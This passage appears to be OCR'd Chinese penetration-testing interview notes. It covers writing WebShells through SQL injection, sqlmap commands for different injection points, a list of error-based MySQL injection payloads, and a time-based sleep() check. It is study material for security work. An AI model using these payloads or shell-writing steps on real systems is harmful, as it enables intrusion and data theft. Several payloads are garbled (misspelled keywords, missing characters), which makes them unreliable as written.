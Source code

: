 有写入权限的，构造联合查询语句使用using INTO OUTFILE，可以将查询的输出重定向到系统的文件中，这样去写入 WebShell 使用 sqlmap –os-shell 原理和上面一种相同，来直接获得一个 Shell，这样效率更高 通过构造联合查询语句得到网站管理员的账户和密码，然后扫后台登录后台，再在后台通过改包上传等方法上传 Shell

* 38、给你一个网站你是如何来渗透测试的? 

在获取书面授权的前提下。

* 39、sqlmap，怎么对一个注入点注入？ 

1）如果是get型号，直接，sqlmap -u "诸如点网址". 

2) 如果是post型诸如点，可以sqlmap -u "注入点网址” --data="post的参数" 

3）如果是cookie，X-Forwarded-For等，可以访问的时候，用burpsuite抓包，注入处用号替换，放到文件里，然后sqlmap -r "文件地址"

* 40、nmap，扫描的几种方式

* 41、sql注入的几种类型？ 

1）报错注入 

2）bool型注入 

3）延时注入 

4）宽字节注入 

* 42、报错注入的函数有哪些？ 

10个 

1）`and extractvalue(1, concat(0x7e,(select @@version),0x7e))】】】 `

2）通过`floor`报错 向下取整 

3）`+and updatexml(1, concat(0x7e,(secect @@version),0x7e),1) `

4）`.geometrycollection()select from test where id=1 and geometrycollection((select from(selectfrom(select user())a)b)); `

5）`.multipoint()select from test where id=1 and multipoint((select from(select from(select user())a)b)); `

6）`.polygon()select from test where id=1 and polygon((select from(select from(select user())a)b)); `

7）`.multipolygon()select from test where id=1 and multipolygon((select from(select from(select user())a)b)); `

8）`.linestring()select from test where id=1 and linestring((select from(select from(select user())a)b)); `

9）`.multilinestring()select from test where id=1 and multilinestring((select from(select from(select user())a)b)); `

10）`.exp()select from test where id=1 and exp(~(select * from(select user())a));`

* 43、延时注入如何来判断？ 

if(ascii(substr(“hello”, 1, 1))=104, sleep(5), 1)

* 44、盲注和延时注入的共同点？ 

都是一个字符一个字符的判断
